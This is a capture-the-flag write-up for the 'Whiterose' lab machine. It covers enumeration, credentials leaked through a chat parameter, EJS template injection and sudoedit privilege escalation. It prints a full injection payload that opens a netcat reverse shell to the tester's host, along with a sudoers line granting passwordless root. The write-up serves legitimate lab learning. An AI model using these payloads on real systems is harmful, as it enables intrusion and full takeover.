 # Whiterose
(flags are at the end of the writeup)

### Welcome!
Initial scan shows port 22 and 80 open: 

    # Nmap 7.94SVN scan initiated Fri Nov  1 04:34:41 2024 as: /usr/lib/nmap/nmap --privileged -p22,80 -sV -sC -oN scan 10.10.141.246
    Nmap scan report for cyprusbank.thm (10.10.141.246)
    Host is up (0.046s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
    |   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
    |_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
    80/tcp open  http    nginx 1.14.0 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html; charset=utf-8).
    |_http-server-header: nginx/1.14.0 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Port 80 gets redirected to `cyprusbank.thm`, so add `10.10.141.246 cyprusbank.thm` to the /etc/hosts file. After some enumeration I found a virtual host. The command I used is `gobuster vhost -u "http://10.10.141.246" --domain cyprusbank.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain --exclude-length 250-320`:<br />
![image](https://github.com/user-attachments/assets/43250f92-25dd-49c8-9e8f-f80388da560f)<br />
So add this new host to the `/etc/hosts` file. <br />
![image](https://github.com/user-attachments/assets/ab79b293-a7da-4ecf-a0e7-498194be2e05)<br />
Using the credentials provided in the task, `Olivia Cortez:olivi8`, we can log in. The page seems to show information about some rich people. I need to answer the first question which is `What's Tyrell Wellick's phone number?`. If I search for "Tyrell Wellick", I can't see it's phone number, just like everybody else. And also I'm not able to access the `Settings` page.<br />
![image](https://github.com/user-attachments/assets/f96ba4ff-33ff-4284-9a64-44e176518f36)<br />
Enumerating the website, I realized that it's because I am not an admin. In the "Messages" panel there's a chat going on between some admins:<br />
![image](https://github.com/user-attachments/assets/28a38dd4-9c02-4a14-9a12-2c0e82efe21c)<br />
and this is the URL of the chat: `http://admin.cyprusbank.thm/messages/?c=5`, by submitting `c=3`, this is what I get: <br />
![image](https://github.com/user-attachments/assets/0595a1d7-82ba-4396-a24d-95a08d3870d6)<br />
So the `c` parameters stands for the number of chat messages that I can view. And here's what I found: <br />
![image](https://github.com/user-attachments/assets/5310d82f-f08e-4a39-9c9c-ae2787f1d859)<br />
`Gayle Bev:p~]P@5!6;rs558:q`. So now I can log with his account, and can view people's phone numbers! (Tyrell Wellick's phone number is at the end of the write up).<br />
Now I can access the settings panel, which seems that it's used to change user's passwords:<br />
![image](https://github.com/user-attachments/assets/f2a34993-b381-4134-9fe3-92325f196536)<br />
I checked if the passwords really changed, but they don't so I probably need to focus on some SSTI vulnerability? After enumerating the request for about 1 hour, I found out that removing the password parameter results in an error:<br />
![image](https://github.com/user-attachments/assets/5c877073-1ce4-4b83-8ca8-c854e82cd548)<br />
This suggests that the server is running EJS(Embedded JavaScript). So I searched online for some EJS SSTI and found [this one](https://github.com/mde/ejs/issues/720). So the password parameter that worked for me is `&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.11.108.100 4444 -e sh');s`, and the final payload request looks like this:<br />
![image](https://github.com/user-attachments/assets/84e647ec-ab70-44aa-a152-fb2b8772a051)<br />
This got me the user flag. <br />
Running `sudo -l` I get this:<br />
![image](https://github.com/user-attachments/assets/422e621a-990b-4748-8e41-d6177d64b9fc)<br />
So I searched online how to exploit sudo on `sudoedit`, and found [this](https://github.com/n3m1sys/CVE-2023-22809-sudoedit-privesc) exploit. <br />
![image](https://github.com/user-attachments/assets/c5aa4abd-800b-4b5a-8ea4-874acfae5ac4)<br />
Let's check if my sudo is vulnerable:<br />
![image](https://github.com/user-attachments/assets/aa2b3866-33bd-457e-9351-9af16cd6ac63)<br />
It is! I slightly modified the script, you can find it inside this folder named `exploit.sh`. After executing the script with `./exploit.sh`, add the following line to the /etc/sudoers file: `web ALL=(ALL:ALL) NOPASSWD: ALL`, and exit from the editor. And you should find yourself with a root shell: <br />
![image](https://github.com/user-attachments/assets/f4137250-e837-4e8f-a419-c8901f02d61a)<br />




